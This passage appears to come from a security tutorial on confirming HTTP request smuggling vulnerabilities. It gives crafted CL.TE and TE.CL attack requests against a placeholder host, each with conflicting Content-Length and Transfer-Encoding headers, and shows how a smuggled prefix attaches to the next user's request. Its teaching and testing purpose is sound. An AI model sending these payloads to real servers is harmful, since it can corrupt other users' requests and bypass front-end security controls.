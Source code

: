 ```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

The request normally receives an HTTP response with 200 OK. The attack request needed to interfere with the request depends on the variant that is present - TE.CL or CL.TE. To confirm CL.TE vulnerabilities, send one such as:

```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```

If successful, the last two lines are treated by the back-end as belonging to the next request received, causing the normal request to look like:

```http
GET /404 HTTP/1.1
Foo: xPOST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

Since it contains an invalid URL, it would return a 404 Not found.

To confirm TE.CL vulnerability, try sending a request like:

```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

7c
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

x=
0
```
